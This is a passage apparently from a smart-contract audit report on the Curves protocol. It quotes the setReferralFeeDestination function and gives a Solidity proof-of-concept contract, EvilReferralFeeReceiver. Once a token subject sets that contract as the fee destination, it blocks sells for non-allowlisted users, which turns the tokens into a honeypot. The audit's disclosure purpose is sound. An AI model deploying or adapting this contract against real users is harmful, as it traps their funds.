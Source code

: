 ```solidity
File: contracts\Curves.sol
155:     function setReferralFeeDestination(
156:         address curvesTokenSubject,
157:         address referralFeeDestination_
158:     ) public onlyTokenSubject(curvesTokenSubject) {
159:         referralFeeDestination[curvesTokenSubject] = referralFeeDestination_;
160:     }
```

By exploiting the above two facts, we can design the following malicious `EvilReferralFeeReceiver` contract. Once it was set as `ReferralFeeDestination`, the `HoneyPot` mode is enabled, users can only buy but can't sell the related curve tokens any more.

```solidity
// @note: put in file: 2024-01-curves\contracts\Test\EvilReferralFeeReceiver.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "@openzeppelin/contracts/access/Ownable.sol";

interface ICurves {
    function curvesTokenBalance(address subject, address account) external view returns (uint256);
}

contract EvilReferralFeeReceiver is Ownable {
    ICurves private _curves;
    address private _subject;
    mapping(address => uint256) private _balances;
    mapping(address => bool) private _allowlist;

    function setCurvesAndSubject(address curves, address subject) external onlyOwner {
        _curves = ICurves(curves);
        _subject = subject;
    }

    function setAllowList(address account, bool allow) external onlyOwner {
        _allowlist[account] = allow;
    }

    function updateBalances(address[] memory accounts) external onlyOwner {
        for (uint256 i; i < accounts.length; ++i) {
            address account = accounts[i];
            _balances[account] = _curves.curvesTokenBalance(_subject, account);
        }
    }

    receive() external payable {
        if (_allowlist[tx.origin]) return;
        // only buy, can't sell
        uint256 newBalance = _curves.curvesTokenBalance(_subject, tx.origin);
        if (newBalance <= _balances[tx.origin]) revert("Honey Pot");
        _balances[tx.origin] = newBalance;
    }
}
```
